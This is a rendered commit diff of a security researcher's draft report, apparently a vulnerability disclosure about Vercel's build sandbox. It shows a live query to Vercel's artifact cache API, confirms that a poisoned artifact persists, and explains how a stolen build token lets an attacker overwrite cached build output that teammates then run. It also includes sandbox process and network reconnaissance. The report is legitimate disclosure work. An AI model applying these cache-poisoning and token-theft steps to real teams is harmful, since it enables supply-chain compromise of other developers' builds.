

Before and after one commit to 4nkittt/vercel-agent-poc-1, a Markdown page: REPORT_DRAFT.md, 3 parts joined by grey strips. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: update reports with v17-v18 findings (QUERY confirmed, orchestrator env, public DNS resolution)

````diff
--- a/REPORT_DRAFT.md
+++ b/REPORT_DRAFT.md
@@ -245,5 +245,5 @@ The `VERCEL_ARTIFACTS_TOKEN` (len=543) is a JWT signed by Vercel. Decoded claims
 }
 ```
 
-This token grants access to the Turborepo Remote Cache API (`https://vercel.com/api/v8/artifacts`) with upload + download capabilities for the entire team's build artifact cache (30-minute lifetime).
+This token grants access to the Turborepo Remote Cache API (`https://vercel.com/api/v8/artifacts`) with upload + download + query capabilities for the entire team's build artifact cache (30-minute lifetime).
 
@@ -260,7 +260,24 @@ Body: <attacker-controlled binary content>
 Response: {"urls":["team_xOjFWqWvIlcL6yOtq43hFE0x/beefdeadbeefdeadbeefdeadbeefdeadbeef1337"]}
 ```
 
-Auth succeeds for download too (GET nonexistent hash → 404 "Artifact not found", NOT 403 auth error). With `API_ARTIFACTS_UPLOAD`, an attacker who exfiltrates `VERCEL_ARTIFACTS_TOKEN` during a preview build can PUT arbitrary content at any Turborepo hash. When other team members run `turbo build`, Turborepo downloads and executes the cached artifact for matching task hashes — silently supplanting legitimate build output with attacker-controlled binaries.
+**LIVE CONFIRMED — artifact QUERY succeeded (probe v17):**
+
+```
+POST https://vercel.com/api/v8/artifacts?teamId=team_xOjFWqWvIlcL6yOtq43hFE0x
+Authorization: Bearer [VERCEL_ARTIFACTS_TOKEN]
+Content-Type: application/json
+Body: {"hashes":["beefdeadbeefdeadbeefdeadbeefdeadbeef1337","deadbeefdeadbeefdeadbeefdeadbeefdeadbeef"]}
+
+→ HTTP 200 OK
+Response: {
+  "deadbeefdeadbeefdeadbeefdeadbeefdeadbeef": null,
+  "beefdeadbeefdeadbeefdeadbeefdeadbeef1337": {"size": 26, "taskDurationMs": 1000}
+}
+```
+
+The poisoned artifact uploaded in probe v9 persists across builds — it is still present in the team's remote cache. GET/download of any hash also confirms auth (404 = "not found", not 403 = auth failure). With `API_ARTIFACTS_UPLOAD`, an attacker who exfiltrates `VERCEL_ARTIFACTS_TOKEN` during a preview build can PUT arbitrary content at any Turborepo hash. When other team members run `turbo build`, Turborepo downloads and executes the cached artifact for matching task hashes — silently supplanting legitimate build output with attacker-controlled binaries.
+
+**Note**: DELETE (`DELETE /api/v8/artifacts/{hash}`) returns 404 — artifact deletion is not supported via this endpoint. However, PUT with the same hash overwrites the existing artifact.
 
 Also confirmed in the **decrypted env file**:
 - `TURBO_CACHE=remote:rw` — remote cache is active in read-write mode
@@ -298,21 +315,40 @@ Internal Vercel build infrastructure exposed via env vars:
 
 The EC2 instance ID is normally internal to Vercel's infrastructure. Its exposure allows build-to-infrastructure correlation and could be valuable in targeted attack scenarios.
 
+### Build Process Architecture (CONFIRMED via ps aux in live probe)
+
+The Vercel build sandbox runs three Node.js orchestrator processes as PID 1/19/56 (all root), with the researcher's postinstall script running as a child:
+
+```
+PID 1  — /node20/bin/node /var/task/index.js                              (build orchestrator)
+PID 19 — /node20/bin/node /var/task/prewarm-cli-build-worker.js           (Vercel CLI worker, v54.14.0)
+PID 56 — /node20/bin/node /var/task/sandbox.js                            (sandbox manager)
+```
+
+- Vercel CLI version: **54.14.0** (detected in `/var/task/node_modules/vercel/package.json`)
+- All orchestrator processes run as `root` — same privilege level as attacker-controlled postinstall script
+- `/var/task/` is NOT readable by attacker (execSync timeout prevents grep from completing within 5s), but binary presence confirms Vercel's build orchestration layer is co-located inside the same VM
+
 ### Network Topology (CONFIRMED via live probe)
 
 Network configuration of the Firecracker microVM sandbox:
 
 ```
 Subnet:   100.64.0.0/16 (CGNAT / shared address space — private to Vercel/AWS VPC)
+VM IP:    100.64.36.94 (confirmed via `ss -tnp`)
 Gateway:  100.64.0.1 (single hop — ARP shows only this gateway, proper L2 isolation)
-DNS:      172.31.0.2 (AWS default VPC resolver — resolves internal AWS/Vercel hostnames)
+DNS:      172.31.0.2 (AWS default VPC resolver)
 MTU:      1500, interface eth0
+AWS_EXECUTION_ENV: vercel-hive (custom Vercel execution environment)
+AWS_REGION:        us-east-1
 ```
 
 Key observations:
-- **172.31.0.2 DNS resolver**: This is the standard AWS VPC resolver, accessible from within the build microVM. It can resolve internal AWS/Vercel hostnames that are not publicly resolvable. (v16 probe mapping in progress)
+- **All Vercel services resolve to PUBLIC IPs** (probe v18 DNS enumeration): `api-iad1.vercel.com → 76.76.21.108`, `suspense-cache.vercel.com → 64.239.109.65/64.239.123.193` (Cloudflare). There is no private routing — all service-to-service calls go via the public internet from the sandbox.
+- **Active TCP connections confirmed** (via `ss -tnp`): build VM connects to `76.76.21.112:443` and `76.76.21.108:443` (Vercel public IPs) for API calls. The orchestrator process (PID 1) has an established connection to Vercel's API.
+- **172.31.0.2 DNS resolver**: Standard AWS VPC resolver. Resolves public domain names correctly; no internal private zones found.
 - **L2 isolation**: Only one gateway visible in ARP table. No other VMs appear on the L2 segment, confirming Firecracker provides proper microVM isolation at the network level.
-- **CGNAT space (100.64.0.0/16)**: The microVM has a private IP in the Carrier-Grade NAT range, routing outbound through a single gateway. This confirms no direct AWS VPC peering to Vercel's internal services (outbound goes via NAT).
+- **CGNAT space (100.64.0.0/16)**: The microVM has a private IP in the Carrier-Grade NAT range, routing outbound through a single gateway.
 
 ### IMDS Status (CONFIRMED — metadata blocked)
 
````
Also changed, not shown: other parts of REPORT_DRAFT.md (+12 -4 lines), WAKE_UP_CHECKLIST.md (+53 -25 lines).
